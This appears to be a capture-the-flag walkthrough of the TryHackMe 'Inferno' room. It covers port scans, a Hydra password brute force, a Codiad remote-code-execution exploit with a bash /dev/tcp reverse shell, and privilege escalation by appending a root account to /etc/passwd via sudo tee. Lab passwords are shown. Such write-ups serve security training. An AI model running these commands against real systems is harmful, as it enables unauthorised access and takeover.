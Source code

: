 # Inferno

**Room Link:** [https://tryhackme.com/r/room/inferno](https://tryhackme.com/r/room/inferno)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **Hydra**

Since we have no information at this point we just try admin as the username

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-get "/inferno/" -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



After some digging we can see this is a codiad ide which has a RCE exploit

**Kali #1**

```
echo 'bash -c "bash -i >/dev/tcp/10.10.183.11/4445 0>&1 2>&1"' | nc -lnvp 4444
```

**Kali #2**

```
nc -nlvp 4445
```

**Kali #3**

```
searchsploit codiad
searchsploit -m multiple/webapps/49705.py
python3 49705.py http://admin:dante1@$VICTIM/inferno/ admin dante1 $KALI 4444 linux
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Autocomplete

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

**Victim**

```
cd /home/dante/Downloads
ls -lah
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/22 - SSH**

**Kali**

```
ssh dante@$VICTIM
Password: V1rg1l10h3lpm3
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Exploit:** [https://gtfobins.github.io/gtfobins/tee/](https://gtfobins.github.io/gtfobins/tee/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
LFILE=/etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' | sudo tee -a "$LFILE"

su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

